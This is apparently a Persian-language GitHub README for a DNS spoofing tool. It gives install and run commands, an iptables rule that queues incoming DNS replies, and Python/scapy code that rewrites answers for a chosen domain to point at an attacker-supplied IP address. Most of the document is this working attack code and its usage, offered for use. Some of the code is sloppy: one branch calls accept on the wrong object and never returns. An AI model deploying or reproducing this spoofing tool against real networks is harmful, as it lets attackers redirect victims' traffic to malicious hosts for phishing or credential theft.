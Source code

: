 # Dns Spoof



## نصب ابزار مورد نیاز

این یک اسکریپت جهت انجام حملات دی ان اس اسپوفینگ است و به پایتون ۳ جهت اجرا نیاز دارد. سپس برای نصب پکیج های مورد نیاز دستورات زیرا را وارد کنید:

```bash
pip install scapy
pip install netfilterqueue
```

## اجرای اسکریپت
برای اجرای اسکریپت کافی است ان را به صورت زیر اجرا کنید:

```bash
sudo ./dns-spoof.py --queue 1 --server www.example.com/1.2.3.4
```

این اسکریپت به کمک یک پکیج به اسم نت فیلتر کیو شروع به پردازش بسته ها می کند. یعنی بسته ها را از یک سری صف می خواند و می تواند ان را تغییر دهد یا قبول کند یا ریجکت کند. برای اینکه از این ضف ها استفاده کند. باید از ایپی تیبل کمک بگیرد. یعنی ایپی تیبل پکت های دریافتی را در صف هایی قرار دهد و این اسکریپت این پکت ها را برداشته و پردازش کند. برای اینکه ایپی تیبل این کار را برای ما انجام دهد باید از دستور زیر استفاده کنیم:

```bash
sudo iptables -A INPUT -p udp  --sport 53 -j NFQUEUE --queue-num 1
```

## توضیح اسکریپت

در این قسمت ما داریم یک کامند لاین درست می کنیم. که بتواند دو تا مقدار بگیرد اولی شماره صفی که باید پکت ها را از ان بخواند و دومی ادرس وبسایت به علاوه ایپی که باید جواب دهد. و از طرفی یک ابجکت از نوع نت فیلتر می سازیم و ان را به شماره صفی که در کامند لاین دادیم متصل می کنیم. همچنین یک کال بک برای ان ست می کنیم. که هر پکتی که از صف برداشت ان را به این کال بک بدهد یا عملیات مورد نظر انجام شود:

```python
parser = argparse.ArgumentParser()
parser.add_argument('--queue', required=True, type=int,
                    metavar='Netfilter Queue ID for binding')
parser.add_argument('--server', required=True, type=str,
                    metavar='website/to ip address')
args = parser.parse_args()
splitted = args.server.split('/')
nfqueue = NetfilterQueue()
nfqueue.bind(args.queue, callback)
nfqueue.run()
```

در این قسمت تابع کال بک را مشاهده می کنید که ابتدا کاری که انجام می دهد این است که پیلود پکت که دریافت کرده را برمی دارد. سپس بررسی می کند که ایا پکت مورد نظر از نوع دی ان اس است یا خیر اگر نبود پکت را برای ادامه پردازش به خود کرنل منتقل می کند. بعد از آن بررسی می کند که آیا پکت مورد نظر که از نوع دی ان اس است حاوی ادرسی است که ما می خواهیم ان را عوض کنیم یا خیر. در صورتی که حاوی این ادرس بود یک پکت جدید از نوع دی ان اس می سازیم و در پکت مورد نظر اینجکت می کنیم. و سپس پکت را به کرنل پاس می دهیم:

```python
def callback(packet):
    ip_packet = IP(packet.get_payload())
    # for better throghput check if the packet is dns query
    if not ip_packet.haslayer(DNSQR):
        # accept packet and go to furthur processing
        ip_packet.accept()

    print(f"[*] Recive dns packet for site: {ip_packet[DNSQR].qname.decode()}")
    # check if the dns query contains our target site
    if splitted[0] in ip_packet[DNSQR].qname.decode():
        print("[*] We got dns packet for target site!!!!")
        # we hit the dns query that is about out target. going to change
                      # it's ip packet                                   # since it's dns packet, it must be sent over udp
        new_payload = IP(src=ip_packet[IP].src, dst=ip_packet[IP].dst) / UDP(sport=ip_packet[UDP].sport, dport=ip_packet[UDP].dport) /\
                        DNS(id=ip_packet[DNS].id, qr=1, aa=1, qd=ip_packet[DNS].qd, an=DNSRR(rrname=ip_packet[DNS].qd.qname, ttl=10, rdata=splitted[1]))
        
        # change packet payload
        packet.set_payload(bytes(new_payload))
        # accept packet and go to furthur processing
        packet.accept()
    else:
        # pass the packet. it's not what we want
        packet.accept()
```

## نتایج اجرای اسکریپت

دی ان اس واقعی:

![real-dns](real-dns.png)

دی ان اس فیک بعد از اجرای اسکریپت:

![fake-dns](fake-dns.png)

خروجی اسکریپت:

![script-output](script-output.png)
